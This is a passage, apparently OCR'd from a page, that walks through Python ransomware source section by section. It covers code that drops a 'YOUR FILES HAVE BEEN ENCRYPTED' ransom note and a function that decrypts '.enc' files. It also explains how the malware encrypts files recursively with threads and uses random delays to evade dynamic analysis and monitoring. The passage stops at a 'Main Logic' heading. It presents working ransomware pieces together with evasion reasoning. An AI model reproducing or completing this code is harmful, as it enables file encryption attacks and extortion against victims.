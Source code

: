             msg = "".join(["# YOUR FILES HAVE BEEN", " ENCRYPTED! Contact", " us at ", "email@example.com"])
            with open(os.path.join(d, "RANSOM_NOTE.txt"), "w") as rf:
                rf.write(msg)
            print("Ransom note created.")
        except Exception as e:
            logging.error(f"Error during infection: {e}")
    

### **What does it do?**

*   Recursively traverses the target directory.

*   Encrypts files with the specified extensions using threads.

*   Adds a random delay between encryptions to hinder dynamic analysis.

*   Creates a ransom note (`RANSOM_NOTE.txt`).

### **Why is it used?**

Using threads allows multiple files to be encrypted simultaneously, increasing malware efficiency. The random delay helps avoid detection by monitoring systems.

* * *

**9\. File Restoration**
------------------------

### **Function** `**rst_f**` **(Restore Files)**

    # Restore files (Obfuscated)
    def rst_f(d, k):
        try:
            for r, dirs, fs in os.walk(d):
                for f in fs:
                    if f.endswith(".enc"):
                        dcr_f(os.path.join(r, f), k)
        except Exception as e:
            logging.error(f"Error restoring files: {e}")
    

### **What does it do?**

It scans the target directory and decrypts all files with the `.enc` extension.

### **Why is it used?**

This function is used to simulate the restoration of files after ransom payment (or for testing purposes).

* * *

**10\. Main Logic**
-------------------
